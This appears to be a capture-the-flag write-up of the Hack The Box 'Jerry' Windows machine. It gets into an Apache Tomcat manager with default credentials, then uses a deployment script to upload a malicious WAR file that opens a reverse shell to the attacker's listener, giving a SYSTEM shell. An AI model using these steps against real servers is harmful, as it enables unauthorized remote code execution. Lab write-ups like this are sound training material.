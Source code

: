 ```yaml
---
title: "Jerry"
date: 2025-07-26 14:34:00 +0500
categories: [Boxes]
tags: [HTB, Box, Windows, Easy, Weak Tomcat Configuration, Malicious WAR File Deployment]
---
```


## Recon

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN jerry 10.10.10.95                                                                                                       
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-26 14:39 PKT
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.67 seconds
```

We only discover an http exposed interface.

On visiting `10.10.10.95:8080` we discover successful installation of tomcat.

![alt text](/assets/images/jerry-tomcat.png)

The manager app button seems interesting, on clicking it we are presented with a login. On trying creds `admin:admin` it leads us to a 403 page. On that page they show an example of how to setup the config for creds. The example creds are `tomcat:s3cret` we try that and we can successfully access the manager. 

## Foothold

We can deploay a WAR file from the tomcat manager. We could craft a malicious WAR file and deploy a reverse shell. 

[WAR File](https://github.com/thewhiteh4t/warsend.git)

We execute the script:

```bash
./script.sh 10.10.16.13 1234 10.10.10.95 8080 tomcat s3cret revshell                                                                                                                                                                                  
[>] Created By : thewhiteh4t
[>] Version    : 1.0.0

[+] LHOST                  : 10.10.16.13
[+] LPORT                  : 1234
[+] RHOST                  : 10.10.10.95
[+] RPORT                  : 8080
[+] Username               : tomcat
[+] Password               : s3cret
[+] Reverse Shell Filename : revshell
[+] Payload                : java/jsp_shell_reverse_tcp

[!] Checking Dependencies...                                                                                                                                                                                  

[!] Testing Tomcat Manager Text API Access...                                                                                                                                                                 
                                                                                                                                                                                                              
[+] Login Successful!
                                                                                                                                                                                                              
[+] Generating WAR Reverse Shell...
Payload size: 1097 bytes
Final size of war file: 1097 bytes

[!] Uploading WAR File...
OK - Deployed application at context path /revshell

[!] Triggering Reverse Shell...                                                                                                                                                                               
                                                                                                                                                                                                              
[+] Starting Listener...
listening on [any] 1234 ...
connect to [10.10.16.13] from jerry.htb [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

## Privilege Escalation

We already are the top most privilege:

```powershell
C:\Users\Administrator\Desktop\flags>whoami
nt authority\system
```

We can find the flag here:

```powershell
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,564,544 bytes free
```

